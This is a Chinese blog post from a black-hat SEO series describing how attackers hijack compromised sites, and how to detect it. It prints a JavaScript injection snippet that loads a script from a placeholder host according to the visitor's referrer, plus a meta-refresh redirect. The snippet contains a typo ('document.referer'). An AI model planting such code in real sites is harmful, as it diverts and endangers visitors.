 ```yaml
---
title: 【黑帽SEO系列】网页劫持
date: 2016-10-12 10:25:13
comments: true
tags: 
- 黑帽SEO
- 网页劫持
categories: 黑产研究
---
```

　　网页劫持是目前黑帽SEO或者说黑产最喜欢的一种网页引流方式，此手法往往通过入侵政府、教育机构网站（权重高），修改网站源代码、放寄生虫程序、设置二级目录反向代理等实现。网页劫持可以分为服务端劫持、客户端劫持、百度快照劫持、百度搜索劫持等等；表现形式可以是劫持跳转，也可以是劫持呈现的网页内容，目前被广泛应用于私服、博彩等暴利行业。

### 服务端劫持
服务端劫持也称为全局劫持，手法为修改网站动态语言文本，判断访问来源控制返回内容，从来达到网站劫持的目的。
#### asp/aspx/php劫持
　　Global.asa、Global.asax、conn.asp、conn.php等文件比较特殊，作用是在每次执行一个动态脚本的时候，都会先加载该脚本， 然后再执行目标脚本。所以只要在 Global.asa 中写判断用户系统信息的代码（访问来源等），如果是蜘蛛访问则返回关键词网页（想要推广的网站），如果是用户访问，则返回正常页面。

### 客户端劫持
客户端劫持的手法也很多，但主要就是2种：js劫持、Header劫持。
#### js劫持
js劫持目的：通过向目标网页植入恶意js代码，控制网站跳转、隐藏页面内容、窗口劫持等。
js植入手法：可以通过入侵服务器，直接写入源代码中；也可以写在数据库中，因为有些页面会呈现数据库内容。
#### js劫持案例
效果：通过搜索引擎搜索点击页面（执行一段js）跳转到博彩页面；直接输入网址访问网页，跳转到404页面。
代码：
```bash
today=new Date();
today=today.getYear()+"-"+(today.getMonth()+1)+"-"+today.getDate();
var regexp=/\.(sogou|so|haosou|baidu|google|youdao|yahoo|bing|gougou|118114|vnet|360|ioage|sm|sp)(\.[a-z0-9\-]+){1,2}\//ig;
var where =document.referer;
if(regexp.test(where)){
document.write ('<script language="javascript" type="text/javascript" src="http://www.xxx.com/test.js"></script>');
}
else
{
window.location.href="../../404.htm";
}
```
分析：通过referer判断来路，如果referer来路为空就是跳转到404页面，如果是搜索引擎来的referer里面也会有显示，然后在写代码控制跳转。如果只是控制实现显示不同的内容，可以修改php、asp代码；如果需要劫持搜索引擎搜索框，可以写JS代码来做浏览器本地跳转。当然js功能可以无限扩展，比如可以控制一个ip一天内第一次访问正常，其余访问跳转等等。
#### header劫持
在源代码中写入以下代码：
```bash
<meta http-equiv=“refresh“ content=“10; url=http://thief.one“>
```
利用的就是Meta Refresh Tag（自动转向），将流量引走。

### 手法对比
#### 客户端劫持与服务端区别
客户端劫持：每次访问网页从服务端获取到的网页代码都是相同的，只是控制了网页代码在浏览器中呈现的效果（比如是否进行跳转等）。
服务端劫持：改变了每次访问网页从服务端获取到的网页代码。
#### 客户端劫持与服务端判断方法
客户端劫持的判断方法：只需观察浏览器呈现的网页前端代码，查看是否引用了不当的js，或者其它敏感内容。
服务端劫持的判断方法：可以通过观察网站后端代码，或者通过改变ip，包头等方式，观察放回源码是否不同。

结语：*网页劫持的方法还有很多，我了解的大概只是皮毛，黑帽SEO技术的水很深，前路漫漫。*

### 传送门

>[【黑帽SEO系列】基础知识](http://thief.one/2016/10/09/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/)
[【黑帽SEO系列】暗链](http://thief.one/2016/10/12/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E6%9A%97%E9%93%BE/)
[【黑帽SEO系列】网页劫持](http://thief.one/2016/10/12/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E7%BD%91%E9%A1%B5%E5%8A%AB%E6%8C%81/)
[【黑帽SEO系列】页面跳转](http://thief.one/2016/10/10/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E9%A1%B5%E9%9D%A2%E8%B7%B3%E8%BD%AC/)


